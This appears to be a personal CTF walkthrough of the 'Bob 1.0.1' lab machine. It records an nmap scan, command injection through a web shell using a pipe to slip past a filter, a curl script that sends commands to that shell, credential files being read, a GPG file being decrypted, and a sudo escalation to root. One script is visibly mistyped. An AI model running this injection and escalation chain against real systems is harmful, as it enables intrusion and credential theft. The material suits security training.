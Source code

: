 https://hackso.me/bob-1.0.1-walkthrough/
https://resources.infosecinstitute.com/topic/bob-1-0-1-ctf-walkthrough/

└─$ sudo nmap -sT -A  -Pn -n  -p- 192.168.110.11 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-12 16:36 CEST
Nmap scan report for 192.168.110.11
Host is up (0.00051s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 4 disallowed entries 
| /login.php /dev_shell.php /lat_memo.html 
|_/passwords.html
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
25468/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 84:f2:f8:e5:ed:3e:14:f3:93:d4:1e:4c:41:3b:a2:a9 (RSA)
|   256 5b:98:c7:4f:84:6e:fd:56:6a:35:16:83:aa:9c:ea:f8 (ECDSA)
|_  256 39:16:56:fb:4e:0f:50:85:40:d3:53:22:41:43:38:15 (ED25519)
MAC Address: 08:00:27:B4:F5:10 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.51 ms 192.168.110.11

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.00 seconds


http://192.168.110.11/dev_shell.php
grep '[a-zA-Z0-9]' /etc/passwd
root:x:0:0:root:/root:/bin/bash
c0rruptedb1t:x:1000:1000:c0rruptedb1t,,,:/home/c0rruptedb1t:/bin/bash
bob:x:1001:1001:Bob,,,,Not the smartest person:/home/bob:/bin/bash
jc:x:1002:1002:James C,,,:/home/jc:/bin/bash
seb:x:1003:1003:Sebastian W,,,:/home/seb:/bin/bash
elliot:x:1004:1004:Elliot A,,,:/home/elliot:/bin/bash 

more /etc/passwd
id|ls -al


#!/bin/bash

HOST=192.168.20.130
SHELL=dev_shell.php
CMD="find $1 -ls"

curl \
        -s \
        --data-urlencode "in_command=$CMD" \
        $HOST/$SHELL \
| sed '/<h5>/,/<\/div>/!d' \
| sed -r -e '1d' -e '$d' -e 's/^\s+//' \


#!/bin/bash

$CMD=$1
curl -s ---data-urlencode "in_command=$CMD" /home/" http://192.168.110.11/dev_shell.php | sed '/<h5>/,/<\/div>/!d' | sed -r -e '1d' -e '$d' -e 's/^\s+//'


┌──(kali㉿kali)-[~/OSCP/boxes/Bob]
└─$ ./test.sh "id|ls /home"
bob
elliot
jc
seb


└─$ ./test.sh "id|more /home/bob/.old_passwordfile.html" 
uid=33(www-data) gid=33(www-data) groups=33(www-data),100(users)
::::::::::::::
/home/bob/.old_passwordfile.html
::::::::::::::
<html>
<p>
jc:Qwerty
seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
</p>
</html>


seb@Milburg-High:/home/bob/Documents$ ls -al
total 20
drwxr-xr-x  3 bob bob 4096 Mar  5  2018 .
drwxr-xr-x 18 bob bob 4096 Mar  8  2018 ..
-rw-r--r--  1 bob bob   91 Mar  5  2018 login.txt.gpg
drwxr-xr-x  3 bob bob 4096 Mar  5  2018 Secret
-rw-r--r--  1 bob bob  300 Mar  4  2018 staff.txt

seb@Milburg-High:/home/bob/Documents/Secret/Keep_Out/Not_Porn/No_Lookie_In_Here$ cat notes.sh 
#!/bin/bash
clear
echo "-= Notes =-"
echo "Harry Potter is my faviorite"
echo "Are you the real me?"
echo "Right, I'm ordering pizza this is going nowhere"
echo "People just don't get me"
echo "Ohhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh <sea santy here>"
echo "Cucumber"
echo "Rest now your eyes are sleepy"
echo "Are you gonna stop reading this yet?"
echo "Time to fix the server"
echo "Everyone is annoying"
echo "Sticky notes gotta buy em"


seb@Milburg-High:/home/bob/Documents$ cat staff.txt 
Seb:

Seems to like Elliot
Wants to do well at his job
Gave me a backdoored FTP to instal that apparently Elliot gave him

James:

Does nothing
Pretty Lazy
Doesn't give a shit about his job

Elliot:

Keeps to himself
Always needs to challenge everything I do
Keep an eye on him
Try and get him fired




elliot@Milburg-High:/home/bob/Documents$ gpg -d --passphrase HARPOCRATES --batch login.txt.gpg 
gpg: keybox '/home/elliot/.gnupg/pubring.kbx' created
gpg: AES encrypted data
gpg: encrypted with 1 passphrase
bob:b0bcat_
elliot@Milburg-High:/home/bob/Documents$ su bob
Password: 
bob@Milburg-High:~/Documents$ sudo -l
sudo: unable to resolve host Milburg-High: Connection refused
[sudo] password for bob: 
Matching Defaults entries for bob on Milburg-High:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User bob may run the following commands on Milburg-High:
    (ALL : ALL) ALL
bob@Milburg-High:~/Documents$ sudo id
sudo: unable to resolve host Milburg-High: Connection refused
uid=0(root) gid=0(root) groups=0(root)
bob@Milburg-High:~/Documents$ 
